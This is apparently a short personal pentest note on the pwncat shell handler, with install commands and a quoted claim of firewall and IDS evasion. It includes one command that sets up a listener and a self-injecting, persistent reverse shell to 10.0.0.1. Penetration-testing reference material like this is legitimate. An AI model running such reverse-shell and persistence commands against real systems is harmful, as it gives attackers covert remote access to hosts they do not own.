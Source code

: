 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://pwncat.org/
### Pwncat

`pwncat` is a sophisticated bind and reverse shell handler with many features as well as a drop-in replacement or compatible complement to `netcat`, `ncat` or `socat`.

> pwncat is like netcat on steroids with Firewall, IDS/IPS evasion, bind and reverse shell, self-injecting shell and forwarding magic - and its fully scriptable with Python ([PSE](https://github.com/cytopia/pwncat/tree/master/pse))

**Install pwncat**

```bash
# Kali Linux
sudo apt install pwncat

```

```bash
# pip
python3 -m pip install pwncat
```

**Setup a listener with unbreakable shell**
This will search for python on host and make a persistence shell back to you.

```bash
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445+3
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
